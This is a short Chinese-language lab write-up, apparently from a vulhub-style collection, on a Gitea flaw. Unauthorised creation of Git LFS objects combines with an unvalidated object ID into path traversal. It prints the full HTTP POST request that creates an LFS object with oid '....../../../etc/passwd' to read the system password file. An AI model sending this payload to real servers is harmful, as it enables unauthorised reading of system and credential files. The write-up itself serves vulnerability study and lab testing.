 [Gate存在一个未授权漏洞](../未授权访问/未授权访问漏洞.md)

这个权限导致的结果是未授权的任意用户都可以为某个项目创建一个Git LFS对象。

这个LFS对象可以通过`http://example.com/vulhub/repo.git/info/lfs/objects/[oid]`这样的接口来访问，比如下载，写入内容等。

其中`[oid]`是LFS对象的ID，通常来说是一个哈希，但gitea中并没有限制这个ID允许包含的字符，这也是导致第二个漏洞的根本原因。



## 利用第一个未授权漏洞创建一个Oid为`....../../../etc/passwd`的LFS对象：

```shell
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

## 访问刚才创建的Oid对象进行文件读取。

![37c58888-8ed3-463e-8653-3671c5894fc7.png](gitea路径穿越漏洞/dcfb9bcc-9e46-4840-b93d-6f3bf3044044.17f2193eef2c.png)



Oid需要进行url编码。

## 为什么读取到了/etc/passwd文件：

![1](gitea路径穿越漏洞/1.png)



## 参考

https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html